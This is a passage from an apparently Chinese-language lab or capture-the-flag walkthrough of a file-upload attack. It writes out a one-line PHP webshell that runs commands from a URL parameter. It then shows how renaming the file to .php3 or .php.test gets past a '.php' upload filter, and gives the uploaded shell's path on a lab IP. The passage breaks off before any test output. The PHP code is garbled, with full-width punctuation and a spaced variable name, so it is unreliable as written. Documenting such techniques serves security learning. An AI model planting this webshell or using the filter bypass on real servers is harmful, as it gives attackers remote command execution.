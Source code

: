 ​	**6）上传 webshell**

​	同理，尝试上传 webshell。首先，构造一个简单的 webshell:

```php
<？php 
  system（$ _ GET ['cmd']）; 
？>
```

![webshell](image/webshell.jpg)

返回的信息：

```
No PHP!!

```

-  `php3`  这将绕过一个简单的过滤器 `.php`
- `.php.test` 这将绕过一个简单的过滤器 `.php` 

webshell.php 改名为 webshell.php3，上传成功。

![succeed](image/succeed.jpg)

​	**7）测试 webshell**

​	成功上传之后，找到文件路径：

```
http://192.168.55.3/admin/uploads/shell.php3
```

​	简单测试：


[sqlmap]: https://github.com/sqlmapproject/sqlmap 